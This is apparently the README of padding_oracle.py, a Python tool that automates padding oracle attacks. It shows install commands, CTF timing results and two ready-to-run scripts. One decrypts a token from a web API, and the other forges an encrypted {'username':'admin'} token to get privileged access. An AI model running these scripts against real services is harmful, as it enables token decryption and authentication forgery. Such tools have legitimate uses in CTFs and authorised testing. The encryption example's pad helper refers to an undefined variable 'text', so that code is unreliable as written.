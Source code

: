 
# Padding Oracle Python Automation Script 

![python-package-badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

The padding_oracle.py is a highly efficient, threaded [padding oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) attack automation script, specifically developed for Python 3.

## Installation

You can install the package using either PyPI or directly from GitHub:

**Via PyPI:**
```shell
pip3 install -U padding_oracle
```

**Via GitHub:**
```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance Metrics

Performance of padding_oracle.py was evaluated using [0x09] Cathub Party from EDU-CTF:

| Number of Request Threads | Time Taken |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## How to Use 
### Decryption
To illustrate the usage, consider an example of testing `https://vulnerable.website/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`:

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://vulnerable.website/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False # e.g. token decryption failed
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

ciphertext: bytes = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
# len(ciphertext) is 32
# possibly be "IV + cipher block" if block size is 16

assert len(ciphertext) % 16 == 0

plaintext = padding_oracle(
    ciphertext,
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
)
```
### Encryption
To illustrate the usage, consider an example of forging a token for`https://vulnerable.website/api/?token=<.....>`:

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://vulnerable.website/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False # e.g. token decryption failed
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

def pad(data: bytes, block_size=16):
	pad_value = block_size - len(data) % block_size
	return text + bytearray([pad_value for i in range(pad_value)])

payload: bytes =b"{'username':'admin'}"
payload = pad(payload)
assert len(payload) % 16 == 0

ciphertext = padding_oracle(
    payload,
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
    mode = 'encrypt'
)
```

In addition, the package provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode,
    urldecode,
    base64_encode,
    base64_decode,
)
```

## License

Padding Oracle Python Automation Script is distributed under the terms of the MIT license.

<!-- PiuPiuPiu -->
